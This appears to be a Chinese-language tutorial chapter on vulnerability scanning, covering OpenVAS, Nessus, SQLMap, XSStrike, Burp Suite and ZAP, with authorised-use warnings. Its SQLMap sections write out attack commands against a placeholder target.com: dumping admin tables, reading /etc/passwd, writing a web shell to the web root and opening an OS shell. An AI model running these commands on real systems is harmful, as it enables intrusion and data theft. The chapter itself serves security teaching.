




+++
title = "第72章：漏洞扫描"
weight = 720
date = "2026-03-24T13:18:28+08:00"
type = "docs"
description = ""
isCJKLanguage = true
draft = false
+++


# 第七十二章：漏洞扫描

> ⚠️ **使用提示**：
> 漏洞扫描工具应用于**授权的安全测试**和**系统加固**。
> 对未授权系统进行扫描可能被视为攻击行为，请遵守相关法律法规！

---

## 72.1 OpenVAS 漏洞扫描

### 什么是 OpenVAS？

OpenVAS（Open Vulnerability Assessment System）是开源的漏洞扫描系统，Greenbone Vulnerability Management 的核心组件。



### 安装 OpenVAS

> **注意**：OpenVAS 现在更名为 Greenbone Vulnerability Management (GVM)，不同版本的包名可能不同！

```bash
# Ubuntu/Debian (新版使用 Greenbone 源，包名为 gvm)
sudo apt update
sudo apt install gvm

# 如果 gvm 包找不到，尝试旧版包名
# sudo apt install openvas

# 初始化（新版本使用 gvm-setup）
sudo gvm-setup
# 旧版可能使用：sudo openvas-setup

# 检查状态
sudo gvm-check-setup

# 启动服务
sudo gvm-start
# 或
sudo openvas-start

# 访问 Web 界面
# https://localhost:9392
```

### OpenVAS 使用

```bash
# 1. 登录 Web 界面
# 用户名：admin
# 密码：初始化时设置的密码

# 2. 创建扫描任务
# Scans → Tasks → New Task
# Name: Test Scan
# Target: 点击 + 创建目标
# Scan Config: Full and fast

# 3. 启动扫描
# 点击播放按钮 ▶️

# 4. 查看结果
# Scans → Reports
```

### 命令行使用 OpenVAS

```bash
# 安装 omp-cli
sudo apt install openvas-cli

# 连接 OpenVAS
omp -h localhost -p 9390 -u admin -w your_password

# 查看配置
omp -h localhost -p 9390 -u admin -w password -g

# 列出扫描配置
omp -h localhost -p 9390 -u admin -w password --get-configs

# 创建目标
omp -h localhost -p 9390 -u admin -w password \
    --xml='<create_target>
        <name>My Target</name>
        <hosts>192.168.1.0/24</hosts>
    </create_target>'
```

## 72.2 Nessus 漏洞扫描

### Nessus 简介

Nessus 是 Tenable 开发的商业漏洞扫描器，有免费版本（Home），功能强大。

> 💡 **提示**：免费版本限制 IP 数量，适合个人学习使用。

### 安装 Nessus

> **注意**：Nessus 需要注册获取激活码才能使用！

```bash
# 1. 注册获取激活码（免费 Home 版）
# 访问：https://www.tenable.com/products/nessus/nessus-home
# 填写邮箱，会收到激活码

# 2. 下载对应版本的安装包
# https://www.tenable.com/downloads/nessus

# 3. 安装
# Debian/Ubuntu
dpkg -i Nessus-*.deb
systemctl start nessusd

# 3. 访问 Web 界面
# https://localhost:8834

# 4. 激活
# 免费注册获取激活码
# 激活链接：https://www.tenable.com/products/nessus/nessus-home
```

### Nessus 使用

```bash
# 1. 登录 Web 界面
# https://localhost:8834

# 2. 创建扫描
# New Scan → Basic Network Scan

# 3. 配置扫描
# Name: My Scan
# Targets: 192.168.1.0/24

# 4. 启动扫描
# Launch → 等待完成

# 5. 查看报告
# Reports → 导出 PDF/HTML
```

### Nessus 扫描类型

| 模板 | 说明 |
|------|------|
| Basic Network Scan | 基础网络扫描 |
| Advanced Scan | 高级扫描 |
| Web Application Tests | Web 应用测试 |
| Malware Scan | 恶意软件扫描 |
| Shadow Brokers Scan | 影子经纪人漏洞 |
| WannaCry Ransomware | 勒索软件检测 |

## 72.3 SQLMap SQL 注入

### 什么是 SQLMap？

SQLMap 是自动化 SQL 注入检测和利用工具，支持多种数据库。



### 基本使用

```bash
# 安装
sudo apt install sqlmap

# 基本用法
sqlmap -u "http://target.com/page.php?id=1"

# 激进模式
sqlmap -u "http://target.com/page.php?id=1" --batch --level=5 --risk=3
```

### SQLMap 常用选项

```bash
# 指定目标
sqlmap -u "http://target.com/page.php?id=1"

# POST 数据
sqlmap -u "http://target.com/login.php" \
    --data="username=admin&password=123"

# Cookie 认证
sqlmap -u "http://target.com/admin.php" \
    --cookie="PHPSESSID=abc123"

# 指定数据库
sqlmap -u "http://target.com/page.php?id=1" \
    --dbs

# 指定数据库名
sqlmap -u "http://target.com/page.php?id=1" \
    -D mydatabase --tables

# 指定表名
sqlmap -u "http://target.com/page.php?id=1" \
    -D mydatabase -T users --columns

# 导出数据
sqlmap -u "http://target.com/page.php?id=1" \
    -D mydatabase -T users --dump
```

### 盲注技巧

```bash
# 基于布尔的盲注
sqlmap -u "http://target.com/page.php?id=1" \
    --technique=B

# 基于时间的盲注
sqlmap -u "http://target.com/page.php?id=1" \
    --technique=T

# 联合查询注入
sqlmap -u "http://target.com/page.php?id=1" \
    --technique=U

# 堆叠查询
sqlmap -u "http://target.com/page.php?id=1" \
    --technique=S

# 自动选择最佳技术
sqlmap -u "http://target.com/page.php?id=1" \
    --technique=AUTO
```

### SQLMap 进阶

```bash
# 读取系统文件
sqlmap -u "http://target.com/page.php?id=1" \
    --file-read "/etc/passwd"

# 写入文件
sqlmap -u "http://target.com/page.php?id=1" \
    --file-write "shell.php" \
    --file-dest "/var/www/html/shell.php"

# 执行 OS 命令
sqlmap -u "http://target.com/page.php?id=1" \
    --os-shell

# 交互式 shell
sqlmap -u "http://target.com/page.php?id=1" \
    --os-pwn

# 搜索特定数据库、表、列
sqlmap -u "http://target.com/page.php?id=1" \
    --search -D mydatabase -T users

# 使用代理
sqlmap -u "http://target.com/page.php?id=1" \
    --proxy http://127.0.0.1:8080
```

### SQLMap 实战示例

```bash
# 1. 检测注入点
sqlmap -u "http://target.com/product.php?id=5" --batch

# 2. 列出所有数据库
sqlmap -u "http://target.com/product.php?id=5" --dbs --batch

# 3. 查看当前数据库
sqlmap -u "http://target.com/product.php?id=5" --current-db --batch

# 4. 列出表
sqlmap -u "http://target.com/product.php?id=5" -D shop --tables --batch

# 5. 导出用户表
sqlmap -u "http://target.com/product.php?id=5" \
    -D shop -T admin_users --dump --batch
```

## 72.4 XSS 测试工具

### 什么是 XSS？

XSS（Cross-Site Scripting）是 Web 应用中最常见的漏洞之一，攻击者在页面中注入恶意脚本。



### XSStrike

```bash
# 安装
git clone https://github.com/s0md3v/XSStrike.git
cd XSStrike
pip install -r requirements.txt

# 基本使用
python xsstrike.py -u "http://target.com/search?q=test"

# 扫描参数
python xsstrike.py -u "http://target.com/page.php?id=1" \
    --params

# 找到的漏洞会高亮显示
```

### Burp Suite

Burp Suite 是 Web 渗透测试的瑞士军刀，Community 版本免费使用。

```bash
# 安装 Kali Linux（自带）
# 或手动安装

# 启动
burpsuite
```

### Burp Suite 功能模块

| 模块 | 功能 |
|------|------|
| Proxy | 拦截代理，修改请求 |
| Spider | 自动爬虫 |
| Scanner | 漏洞扫描（Professional） |
| Intruder | 暴力破解/模糊测试 |
| Repeater | 修改并重放请求 |
| Comparer | 比较两次响应差异 |
| Decoder | 编码解码 |

### Burp Scanner

```bash
# 被动扫描（拦截请求时自动扫描）
# Proxy → Intercept → 开启拦截

# 主动扫描（右键 → Do active scan）
# Spider → 爬取目标
# Scanner → 启动扫描

# 查看漏洞报告
# Target → Site map → Issues
```

### Burp Intruder

```bash
# 用途：暴力破解、参数枚举、Fuzzing

# 1. 拦截请求
# Proxy → Intercept → 开启

# 2. 发送到 Intruder
# 右键 → Send to Intruder

# 3. 配置
# Intruder → Positions
# 选中要攻击的参数，点击 Add §

# 4. 设置 Payload
# Payload Sets → Payload type
# - Simple list：简单列表
# - Runtime file：文件
# - Numbers：数字序列
# - Dates：日期
# - Brute forcer：字符组合

# 5. 启动攻击
# Intruder → Start attack
```

### OWASP ZAP

```bash
# 安装
sudo apt install zaproxy

# 启动
zaproxy

# 扫描网站
# 1. 输入 URL
# 2. 点击 "Attack"
# 3. 查看结果
```

## 本章小结

本章我们学习了漏洞扫描工具：

| 工具 | 类型 | 特点 |
|------|------|------|
| OpenVAS | 开源 | 免费、功能全 |
| Nessus | 商业 | 界面友好、插件多 |
| SQLMap | 开源 | SQL注入专用 |
| XSStrike | 开源 | XSS 专用 |
| Burp Suite | 商业 | Web 渗透全能 |
| OWASP ZAP | 开源 | 免费、Web 扫描 |

漏洞扫描流程：



---

> ⚠️ **温馨提示**：
> 本章内容仅供授权测试和学习使用。未经授权的漏洞扫描是违法行为，可能面临法律制裁！

---

**第七十二章：漏洞扫描 — 完结！** 🎉

下一章我们将学习"渗透测试"，掌握暴力破解、密码破解、中间人攻击等技术。敬请期待！ 🚀
